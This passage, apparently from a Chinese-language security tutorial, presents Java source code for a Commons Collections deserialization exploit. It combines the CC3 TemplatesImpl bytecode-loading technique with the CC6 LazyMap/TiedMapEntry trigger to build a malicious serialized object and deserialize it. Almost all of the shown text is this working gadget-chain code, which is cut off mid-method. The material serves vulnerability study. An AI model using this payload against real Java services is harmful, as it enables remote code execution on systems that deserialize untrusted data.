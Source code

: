 后面随便截取一段其他CC的代码接着触发chainedTransformer就行了。这里就用CC6后面的代码.

完整代码1：

```java
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.keyvalue.TiedMapEntry;
import org.apache.commons.collections.map.LazyMap;

import java.io.FileInputStream;
import java.io.FileOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Constructor;
import java.lang.reflect.Field;
import java.lang.reflect.Modifier;
import java.nio.file.Files;
import java.nio.file.Paths;
import java.util.HashMap;
import java.util.Map;
import java.util.Properties;

public class CC3TemplatesImpl {
    public static void main(String[] args) throws Exception {
        byte[] code1 = Files.readAllBytes(Paths.get("E:\\CODE_COLLECT\\CC6TiedMapEntry2.class"));
        TemplatesImpl templatesClass = new TemplatesImpl();
        Field[] fields = templatesClass.getClass().getDeclaredFields();
        for (Field field : fields) {
            field.setAccessible(true);
            if (field.getName().equals("_bytecodes")) {
                field.set(templatesClass, new byte[][]{code1});
            } else if (field.getName().equals("_name")) {
                field.set(templatesClass, "godown");
            } else if (field.getName().equals("_tfactory")) {
                field.set(templatesClass, new TransformerFactoryImpl());
            }
        }
        Transformer[] transformers = new Transformer[]{
                new ConstantTransformer(templatesClass),
                new InvokerTransformer("newTransformer",new Class[]{},new Object[]{}),
        };
        ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);
        HashMap<Object, Object> map = new HashMap<>();
        Map lazyMap = LazyMap.decorate(map, new ConstantTransformer("godown"));
        TiedMapEntry tiedMapEntry = new TiedMapEntry(lazyMap, "test1");
        HashMap<Object, Object> hashMap = new HashMap<>();
        hashMap.put(tiedMapEntry, "test2");
        map.remove("test1");
        Class lazymapClass = lazyMap.getClass();
        Field factory = lazymapClass.getDeclaredField("factory");
        factory.setAccessible(true);
        Field modifiersField = Field.class.getDeclaredField("modifiers");
        modifiersField.setAccessible(true);
        modifiersField.setInt(factory, factory.getModifiers() & ~Modifier.FINAL);
        factory.set(lazyMap, chainedTransformer);
        serialize(hashMap);
        unserialize("cc6.ser");
    }
    public static void serialize(Object obj) throws Exception {
        ObjectOutputStream oos = new ObjectOutputStream(new FileOutputStream("cc6.ser"));
```